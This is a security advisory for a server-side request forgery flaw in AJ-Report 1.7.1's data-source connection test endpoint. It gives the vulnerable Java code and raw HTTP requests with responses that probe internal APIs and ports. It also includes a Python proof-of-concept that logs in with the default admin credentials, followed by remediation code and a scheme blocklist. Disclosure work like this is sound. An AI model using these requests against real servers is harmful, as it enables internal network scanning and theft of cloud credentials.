

# AJ-Report 1.7.1 Server-Side Request Forgery (SSRF)

> **Discovery Date**: 2026-06-15  
> **Vulnerability Type**: Server-Side Request Forgery (SSRF)  
> **Affected Product**: AJ-Report v1.7.1.RELEASE (Spring Boot Data Visualization & Reporting Platform)  
> **Risk Level**: **High** — Internal network probing and attacks

---

## 1. Description

In AJ-Report 1.7.1, the `/dataSource/testConnection` endpoint in the data source management module fails to validate or restrict the user-supplied `apiUrl` parameter when testing HTTP-type data source connections. An attacker can exploit this endpoint to send arbitrary HTTP requests to internal or external servers, leading to a Server-Side Request Forgery (SSRF) vulnerability.

**Root Cause**: The `testHttp()` method in `DataSourceServiceImpl.java` directly invokes `restTemplate.exchange(apiUrl, ...)` without any restriction on the protocol, host, or IP address of the `apiUrl`.

---

## 2. Affected Versions

- AJ-Report ≤ 1.7.1.RELEASE (latest)
- This endpoint has existed since version 1.4.1; earlier versions may also be affected

---

## 3. Vulnerability Location

- **Java File**: `com.anjiplus.template.gaea.business.modules.datasource.service.impl.DataSourceServiceImpl.java`
- **Key Methods**: `testHttp()` (line 359), `analysisHttpConfig()` (line 411)
- **HTTP Endpoint**: `POST /dataSource/testConnection`

### Vulnerable Code

```java
// DataSourceServiceImpl.java:359-376
public void testHttp(DataSourceDto dto) {
    this.analysisHttpConfig(dto);
    String apiUrl = dto.getApiUrl();
    String method = dto.getMethod();
    // ...
    ResponseEntity exchange = this.restTemplate.exchange(
        apiUrl,                          // User-controlled URL - NO RESTRICTIONS
        HttpMethod.valueOf(method), 
        entity, Object.class, new Object[0]
    );
}
```

```java
// DataSourceServiceImpl.java:411-427
public void analysisHttpConfig(DataSourceDto dto) {
    JSONObject json = JSONObject.parseObject((String)dto.getSourceConfig());
    String apiUrl = json.getString("apiUrl");   // Directly from user input
    String method = json.getString("method");    // Directly from user input
    // ...
    dto.setApiUrl(apiUrl);
    dto.setMethod(method);
}
```

### Call Chain

```
User Request POST /dataSource/testConnection
  → DataSourceController.testConnection(ConnectionParam)
    → DataSourceService.testConnection(ConnectionParam)
      → DataSourceServiceImpl.testHttp(DataSourceDto)
        → analysisHttpConfig(dto)        // Parse apiUrl from sourceConfig
        → restTemplate.exchange(apiUrl)  // Issue HTTP request - SSRF!
```

---

## 4. Attack Scenarios & Reproduction

### Prerequisites

| Condition | Description |
|-----------|-------------|
| Access | Requires valid authentication token |
| Default Credentials | `admin / 123456` |
| Default Port | 9095 |

### 4.1 Basic SSRF Verification — Request Internal API

**Request**:
```
POST /dataSource/testConnection
Host: 192.168.153.128:9095
Authorization: {token}
Content-Type: application/json

{
  "sourceType": "http",
  "sourceConfig": "{\"apiUrl\":\"http://127.0.0.1:9095/gaeaDict/all\",\"method\":\"GET\",\"header\":\"{}\",\"body\":\"\"}"
}
```

**Response** (success with `data: true`):
```json
{
  "code": "200",
  "message": "Operation successful",
  "data": true
}
```

> A response of `code: 200` with `data: true` confirms that the request was successfully sent to the internal endpoint.

### 4.2 SSRF Probing Internal MySQL Port

**Request**:
```
POST /dataSource/testConnection
Host: 192.168.153.128:9095
Authorization: {token}
Content-Type: application/json

{
  "sourceType": "http",
  "sourceConfig": "{\"apiUrl\":\"http://127.0.0.1:3306/\",\"method\":\"GET\",\"header\":\"{}\",\"body\":\"\"}"
}
```

**Response** (connection reset — confirms port is open):
```json
{
  "code": "4001",
  "message": "Data source connection failed: I/O error on GET request for \"http://127.0.0.1:3306/\": Connection reset",
  ...
}
```

> A `Connection reset` error confirms that the target host and port are reachable and completed a TCP handshake.

### 4.3 SSRF to External Host

**Request**:
```
POST /dataSource/testConnection
Host: 192.168.153.128:9095
Authorization: {token}
Content-Type: application/json

{
  "sourceType": "http",
  "sourceConfig": "{\"apiUrl\":\"http://192.168.153.1:9999/\",\"method\":\"GET\",\"header\":\"{}\",\"body\":\"\"}"
}
```

**Response** (HTTP response received from external server):
```json
{
  "code": "4001",
  "message": "Data source connection failed: Could not extract response: no suitable HttpMessageConverter found for response type [class java.lang.Object] and content type [text/html;charset=utf-8]",
  ...
}
```

> The external server responded with `text/html` content, confirming the SSRF request reached the external target.

---

## 5. Automated PoC Scripts

### 5.1 Python PoC

```python
import requests, json

TARGET = "http://192.168.153.128:9095"
PROXY = "http://127.0.0.1:8080"  # Burp Suite proxy

sess = requests.Session()
sess.verify = False
sess.proxies = {"http": PROXY, "https": PROXY}
requests.packages.urllib3.disable_warnings()

# 1. Login to obtain token
r = sess.post(f"{TARGET}/accessUser/login", json={
    "loginName": "admin", "password": "123456"
})
token = r.json()["data"]["token"]

# 2. SSRF PoC — Request internal API
config = json.dumps({
    "apiUrl": "http://127.0.0.1:9095/gaeaDict/all",
    "method": "GET",
    "header": "{}",
    "body": ""
})
r = sess.post(f"{TARGET}/dataSource/testConnection", 
    headers={"Authorization": token},
    json={"sourceType": "http", "sourceConfig": config}
)
print(r.text)
# Expected: {"code":"200","data":true}  => SSRF confirmed

# 3. SSRF PoC — Probe internal MySQL
config2 = json.dumps({
    "apiUrl": "http://127.0.0.1:3306/",
    "method": "GET",
    "header": "{}",
    "body": ""
})
r = sess.post(f"{TARGET}/dataSource/testConnection",
    headers={"Authorization": token},
    json={"sourceType": "http", "sourceConfig": config2}
)
print(r.text)
# Expected: "Connection reset" => port is alive
```

### 5.2 Burp Suite Raw Request

```
POST /dataSource/testConnection HTTP/1.1
Host: 192.168.153.128:9095
Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9...
Content-Type: application/json

{"sourceType":"http","sourceConfig":"{\"apiUrl\":\"http://127.0.0.1:9095/gaeaDict/all\",\"method\":\"GET\",\"header\":\"{}\",\"body\":\"\"}"}
```

testing result:




## 6. Impact

An attacker can exploit this SSRF vulnerability to achieve the following:

| Attack Type | Description |
|-------------|-------------|
| **Internal Port Scanning** | Probe internal hosts for open ports and running services |
| **Internal Service Attacks** | Attack internal Web panels, Redis, MySQL, etc. |
| **Cloud Metadata Theft** | Read cloud instance metadata (AWS/GCP/Azure) to steal temporary credentials |
| **Firewall Bypass** | Use the server as a proxy to attack otherwise unreachable internal networks |
| **File Reading** | Combine with `file://` protocol (if supported) to read local files |

---

## 7. Remediation

### 7.1 Code-Level Fix

Add URL validation in `DataSourceServiceImpl.analysisHttpConfig()`:

```java
public void analysisHttpConfig(DataSourceDto dto) {
    JSONObject json = JSONObject.parseObject((String)dto.getSourceConfig());
    String apiUrl = json.getString("apiUrl");
    
    // SSRF protection: block internal IPs
    URI uri = new URI(apiUrl);
    String host = uri.getHost();
    InetAddress addr = InetAddress.getByName(host);
    if (addr.isSiteLocalAddress() || addr.isLoopbackAddress() 
        || addr.isLinkLocalAddress()) {
        throw new BusinessException("Access to internal addresses is forbidden");
    }
    
    // Block non-HTTP protocols
    if (!"http".equals(uri.getScheme()) && !"https".equals(uri.getScheme())) {
        throw new BusinessException("Only http/https protocols are supported");
    }
    
    // ... rest of original logic
}
```

### 7.2 Configuration Hardening

```yaml
# Add allow/blocklist for internal addresses
customer:
  ssrf:
    blocked-hosts: 127.0.0.1, 10.0.0.0/8, 172.16.0.0/12, 192.168.0.0/16
    blocked-schemes: file, ftp, dict, gopher
```

### 7.3 Network-Level Protection

- Restrict outbound traffic from the application server using network policies
- Deploy WAF rules to block `apiUrl` parameters containing internal IP addresses

---

## 8. References

- AJ-Report Official Repository: https://gitee.com/anji-plus/AJ-Report
- OWASP SSRF: https://owasp.org/www-community/attacks/Server_Side_Request_Forgery
- CWE-918: Server-Side Request Forgery (SSRF)
